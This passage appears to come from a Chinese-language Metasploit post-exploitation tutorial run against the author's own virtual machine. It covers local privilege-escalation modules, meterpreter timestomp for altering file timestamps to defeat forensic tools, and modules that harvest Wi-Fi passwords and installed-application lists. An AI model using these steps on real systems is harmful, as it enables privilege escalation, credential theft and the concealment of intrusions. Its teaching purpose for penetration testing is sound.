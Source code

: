 这里想要说的是getsystem在新的Windows中不太稳定，最好使用本地提权模块来达到目的。（如对于`Windows Server 2008 SP1`可以尝试`exploit/windows/local/ms10_015_kitrap0d`提权）

#### timestomp

```
meterpreter > timestomp --help
Usage: timestomp <file(s)> OPTIONS
OPTIONS:
    -a <opt>  Set the "last accessed" time of the file
    -b        Set the MACE timestamps so that EnCase shows blanks
    -c <opt>  Set the "creation" time of the file
    -e <opt>  Set the "mft entry modified" time of the file
    -f <opt>  Set the MACE of attributes equal to the supplied file
    -h        Help banner
    -m <opt>  Set the "last written" time of the file
    -r        Set the MACE timestamps recursively on a directory
    -v        Display the UTC MACE values of the file
    -z <opt>  Set all four attributes (MACE) of the file
```

这是一个和计算机取证有关的很有意思的命令，目标计算机上有一个bof-server.exe，我们将其时间改为2017年：

![Bildschirmfoto 2018-10-30 um 9.47.53 PM.png]({{ site.url }}/images/metasploit/58BE08E8C01D26D98A77C37EDE96011D.png)

然后到目标系统上看一下，修改成功了：

![Bildschirmfoto 2018-10-30 um 9.49.18 PM.png]({{ site.url }}/images/metasploit/60AA531EAB556FA634E6E13799A6B72F.png)

## 其他后渗透模块

模块太多，还需要自己深入挖掘。这里展示一些有意思的。

#### 无线网络相关

```bash
# 收集附近的无线网络信息
meterpreter > run post/windows/wlan/wlan_bss_list

[*] WlanAPI Handle Closed Successfully

# 收集wifi密码
meterpreter > run post/windows/wlan/wlan_profile

[*] No wireless interfaces
```

上面显示我的虚拟机附近没有无线网络，这是正常的。。

#### 获取应用程序列表

```bash
meterpreter > run get_application_list

Installed Applications
======================

 Name                                                                                    Version
 ----                                                                                    -------
 010 Editor 6.0.2 (32-bit)
 7-Zip 9.20
 Alternate DLL Analyzer 1.540
 Cheat Engine 6.7
 Compuware SoftICE v4.3.2.2485 & IceExt 0.70 Lite Edition
 HashCheck Shell Extension (x86-32)                                                      2.1.11.1
 HashTab 6.0.0.28                                                                        6.0.0.28
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB953595)                                  1
```
